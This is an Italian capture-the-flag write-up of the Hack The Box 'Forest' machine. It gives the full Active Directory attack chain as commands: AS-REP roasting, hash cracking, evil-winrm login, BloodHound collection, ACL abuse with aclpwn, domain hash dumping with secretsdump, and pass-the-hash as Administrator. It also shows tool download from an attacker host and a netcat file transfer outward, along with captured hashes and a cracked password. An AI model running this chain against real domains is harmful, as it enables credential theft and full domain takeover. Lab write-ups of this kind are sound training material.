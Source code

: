 ## KRoasting

```
./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c
```


--OPPURE--


```
python GetNPUsers.py htb.local/ -no-pass -usersfile ../../forest_user.txt -dc-ip 10.10.10.161
```

Il contenuto di forest_user.txt è dato da enum4linux. Tra cui c'è svc-alfresco che è l'unico per cui si riesce ad estrarre l'hash.


## PassTheHash (?)

Benissimo, ottenuto l'hash finalmente posso mettere in pratica una tecnica che ho sempre voluto provare: la PTH:

```
evil-winrm -u svc-alfresco -H "6a2929599dd19458e2c15587a7c870e5$d7a17216a7094b7ddece4533f3255c63b0906bfde35e2bdb75c40bff8f791a2a0d80d905e8d306a5d1e1060a9cb7c44f652caf14c7e74138259ddda20a9a1040a236d708f183cae602c195261bf614a381d822b11ecf3870becd7a1b4f7c9db4339023bf7aa7d5e7ddf00836385f075f52a814e63df0826a4b6937d3789bafa0c2c9735bbd9378b50125db20fad4a884b4e7f298cb5a8e244fa31b4c379a9131f4977ff4bd5a270e3d6e52e3ae32bdd550312cdba3ea40891033b330791bc3415a709fcd592165b3e4a6b0150a58f1ffe962a9a2783d4b973c99c118cae4535030169f2c8f63" -i 10.10.10.161
```

Come non detto, quella tecnica non funziona (perché l'hash non è in formato NTLM).

Rompo l'hash banalmente con John:

```
john --wordlist=rockyou.txt hash.txt
```

Ed entro con la password:

```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

A questo punto presa la tanta faticata user flag comincio con la fase di PrivEsc. Dato il nome della challenge capisco che devo interagire con l'Active Directory. Uso per tal motivo BloodHound.

## PrivEsc

Prima cosa che faccio è scaricare dentro \tmp l'exe necessario: SharpHound. Provo con un wget e curl ma non funzionano. Banalmente lo carico in una cartella 'pubblica' (python simplehttpserver) e lo scarico all'interno della macchina con:
```
Invoke-WebRequest http://IP:8000/SharpHound.exe -o SharpHound.exe
```
Lo eseguo con 
```
.\SharpHound.exe -c all
```
Lascio che prelevi tutto e che generi i vari due file (.zip e .bin). A questo punto sorge un problema! Come passare dalla macchina Win a Linux i due file? 


Con la stessa tecnica di prima carico dentro la macchina NetCat, quindi passo verso Kali i due file:
```
.\nc.exe -w 3 IP 9191 | 20200317113311_BloodHound.zip
```

A quanto pare il file .zip trasferito con NetCat risulta essere corrotto. Cercando un altro metodo per trasferire il file ho scoperto che Evil-WinRM contiene già due metodi "DOWNLOAD" e "UPLOAD". Ho usato questi per spostare l'archivio zip generato. A questo punto ho trascinato il file zip su BloodHound (assicurati che il DB sia in running con "sudo neo4j console" altrimenti non funzionerà), ho messo come nodo foglia 
```
SVC-ALFRESCO@HTB.LOCAL
```
e come nodo radice 
```
DOMAIN ADINS@HTB.LOCAL
```

Osservo l'albero dell'ActiveDirectory e scopro che l'utente ha di base due permessi ereditati (per errore?): 
* GenericAll
* WriteDACL

Sfrutto aclpwn per exploitare da remoto la vulnerabilità presente nelle AD
```
aclpwn -f svc-alfresco@htb.local -ft User -t htb.local -d htb.local -du neo4j -dp PWD -s 10.10.10.161 -u svc-alfresco -sp s3rvice
```
Ho elevato i permessi sulle ACL per svc-alfresco, quindi ora posso dumpare tutti gli NTLM:
```
python secretsdump.py -just-dc-ntlm htb.local/svc-alfresco:s3rvice@10.10.10.161
```
Ottenenedo così:
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```
A questo punto posso accedere alla macchina come Administrator con la tecnica di PTH (finalmente, sono commosso):
```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
```

Navigo dentro il Desktop ed eccolo lì il root.txt 😍
